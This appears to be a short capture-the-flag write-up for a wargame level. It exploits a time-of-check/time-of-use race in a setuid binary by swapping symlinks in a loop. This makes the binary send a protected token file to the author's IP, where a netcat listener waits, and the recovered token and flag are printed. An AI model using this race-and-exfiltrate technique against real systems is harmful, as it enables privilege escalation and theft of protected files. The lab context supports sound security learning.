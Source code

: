 -same as before suid and token file
-strings on suid its a script that takes an ip and file and send the file to that ip in port 6969
-tried to send token to my ip using nc -l 6969 but we dont have permission for token
-created a symlink to the token still the same problem no permission even for the symlink
-so somthing check our id and check for permission I ran strings again and find out access google it searching for exploit and yes there is an exploit if you timed the creation of the file when acces executed then change it right after for open it will pass
-so I created a bash script that create symlink in infinite loop find the script on the same folder
-so sh /tmp/script.sh & to stay in background then ran while true; do ./level10 /tmp/link myIp; done and on my terminal nc -lk 6969 (k so is will stay listening)
-then I got :
	woupa2yuojeeaaed06riuj63c
-getflag => feulo4b72j7edeahuete3no7c

